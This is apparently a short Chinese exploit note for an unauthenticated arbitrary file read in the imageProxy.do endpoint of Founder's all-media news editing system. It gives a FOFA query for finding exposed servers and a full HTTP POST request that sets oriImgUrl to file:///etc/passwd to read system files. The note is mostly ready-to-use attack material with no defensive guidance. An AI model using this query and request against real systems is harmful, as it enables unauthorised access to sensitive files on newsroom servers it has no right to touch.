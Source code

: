 # 方正畅享全媒体新闻采编系统imageProxy.do任意文件读取漏洞

方正畅享全媒体新闻采编系统 imageProxy.do 接口存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件。

## fofa

```javascript
app="FOUNDER-全媒体采编系统"
```

## poc

```javascript
POST /newsedit/outerfotobase/imageProxy.do HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept: text/plain, */*; q=0.01

oriImgUrl=file:///etc/passwd
```

![image-20250103100410296](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202501031004386.png)